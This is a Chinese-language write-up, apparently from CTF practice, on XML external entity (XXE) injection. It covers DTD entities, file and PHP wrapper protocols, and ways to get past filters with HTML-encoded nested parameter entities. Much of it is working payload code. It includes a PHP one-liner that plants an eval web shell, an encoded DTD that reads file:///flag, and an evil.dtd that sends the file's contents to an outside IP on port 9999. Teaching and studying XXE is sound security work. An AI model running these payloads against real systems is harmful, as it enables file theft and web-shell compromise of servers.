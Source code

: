 # XXE

在网上找了好一会，相关资料甚少，并且都不是很齐全，在这讲讲这两天搞的XXE漏洞

如果上传的数据流能被以xml形式解析就有可能存在XXE漏洞

~~~xml-dtd
一般来说，XML文档是以下这种格式
<?xml version="1.0"?>
<!DOCTYPE FRUIT [
    <!ELEMENT FRUIT (COLOR,NAME,TASTE)>
    <!ELEMENT COLOR (#PCDATA)>
    <!ELEMENT NAME (#PCDATA)>
    <!ELEMENT TASTE (#PCDATA)>
    <!ENTITY A "">
    <!ENTITY B SYSTEM "">
    ]>
<abc>&B</abc>
~~~

从以上代码简单的能看出，xml文件分为几个部分

+ xml头部，展示xml版本信息
+ DOCTYPE部分，此部分是注入的关键，用来引入外部实体达到调用恶意伪协议来任意读取文件。这个部分本意是来确定文档里面的元素声明，如上面这个例子，第三行是定义此文档是`FRUIT`类型的文档，第四行就是讲`FRUIT`这个文档里面有三种元素分别是`COLOR`,`NAME `,`TASTE`
+ 最后就是xml构建出来的模块

## 实体

在这里我们重点讨论实体。其中`ENTITY`叫做实体，实体是用来定义普通文本的变量。实体引用是对实体的引用，用符号`&`表示，后面要加`;`不能忘

~~~dtd
<!ENTITY 实体名称 "实体的值">
<!ENTITY 实体名称 SYSTEM "URI/URL">
<!ENTITY % 实体名称 "实体的值">
~~~

+ 第一行可以用来定义一个套娃的实体，套进去的通过HTML编码能绕过对很多字符串的过滤，如：SYSTEM，FLAG，各种协议.......只要放进去被调用了就会被自动解析里面的编码内容。

+ 第二行就是利用点，能够用各种协议来读取文件目前这个SYSTEM支持的php协议有

  ![image-20221022001741350](/picture/xxe/image-20221022001741350.png)

  + ~~~php
    file://route
    ~~~

  + ~~~php
    php://filter/read=convert.base64-encode/resource=[route]
    ~~~

  + ```php
    #如果有写权限文件的可以试试写马
    <?php fputs(fopen('shell.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
    ```

  + ~~~php
    #主要利用这条来调用要利用服务器上的外部实体
    http://XXX/X.dtd
    ~~~

  + ~~~php
    data://text/plain,
    data://text/plain;base64,
    ~~~

+ 第三行是带`%`的参数实体，所谓参数实体就是这个实体可以被其他实体引用，但是相同的一个包里面的不能互相引用的喔，不知道为什么，留一个悬念。通过外部服务器访问的实体是可以被引用的。

## 绕过&&payload

1. 如果过滤了xml，直接把`<?xml version="1.0"?>`删了即可，xml没那么严格

2. 如果过滤了协议http，file，php，或者SYSTEM这样的字段，可以通过套娃调用HTML编码过的参数实体来绕过。注意，套娃参数实体是不用SYSTEM的，而且套娃的参数实体要先调用一次，不能在服务器端dtd调用，否则报错。如果不调用直接使用是不行的，因为编码的内容不会被解析出来。所以要先调用一下这个`%wble`，然后里面的东东会被解析变成另一个参数实体`<!ENTITY % wbb SYSTEM 'file:///flag'>`，然后再用`%wbb`调用就可以了，一般会用http在服务器端的dtd去调用一个访问的操作。

   具体如下

   ~~~python
   #mian.py
   payload = """<!DOCTYPE test [
   <!ENTITY % wble "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x77;&#x62;&#x62;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x27;&#x66;&#x69;&#x6c;&#x65;&#x3a;&#x2f;&#x2f;&#x2f;&#x66;&#x6c;&#x61;&#x67;&#x27;&#x3e;">
   <!ENTITY % kao "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x77;&#x61;&#x61;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x27;&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x31;&#x37;&#x35;&#x2e;&#x31;&#x37;&#x38;&#x2e;&#x31;&#x31;&#x32;&#x2e;&#x31;&#x37;&#x33;&#x2f;&#x68;&#x61;&#x63;&#x6b;&#x2f;&#x61;&#x2e;&#x64;&#x74;&#x64;&#x27;&#x3e;">
   %wble;
   %kao;
   %waa;
   ]>
   <root>123</root>"""
   ~~~

   ~~~python
   #编码部分解释
   "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x77;&#x62;&#x62;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x27;&#x66;&#x69;&#x6c;&#x65;&#x3a;&#x2f;&#x2f;&#x2f;&#x66;&#x6c;&#x61;&#x67;&#x27;&#x3e;"
   |
   +->	<!ENTITY % wbb SYSTEM 'file:///flag'>
   
   "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x77;&#x61;&#x61;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x27;&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x31;&#x37;&#x35;&#x2e;&#x31;&#x37;&#x38;&#x2e;&#x31;&#x31;&#x32;&#x2e;&#x31;&#x37;&#x33;&#x2f;&#x68;&#x61;&#x63;&#x6b;&#x2f;&#x61;&#x2e;&#x64;&#x74;&#x64;&#x27;&#x3e;"
   |
   +-><!ENTITY % waa SYSTEM 'http://175.178.112.173/hack/a.dtd'>
   ~~~

   ~~~dtd
   #evil.dtd
   #下面这段加端口号是为了监听方便，把参数实体放后面方便报错回显
   #实体的字符串外面这层一定要用双引号！里面的要用单引号！(反过来也可以)
   #？都用同种符号会报错:DOMDocument::loadXML(): xmlParseEntityDecl: entity dtd not terminated
   #？这个里面套进去的参数实体的&#x25是%的html编码，如果不编码就会报错：DOMDocument::loadXML(): EntityValue: '%' forbidden except for entities references
   #？一定要套娃才能让这个访问生效，直接用一个SYSTEM的去调用会报错：DOMDocument::loadXML(): Invalid URI: http://175.178.112.173:9999/%wbb;
   <!ENTITY % dtd "<!ENTITY &#x25; xxe SYSTEM 'http://175.178.112.173:9999/%wbb;'> ">
   %dtd;
   %xxe;
   ~~~

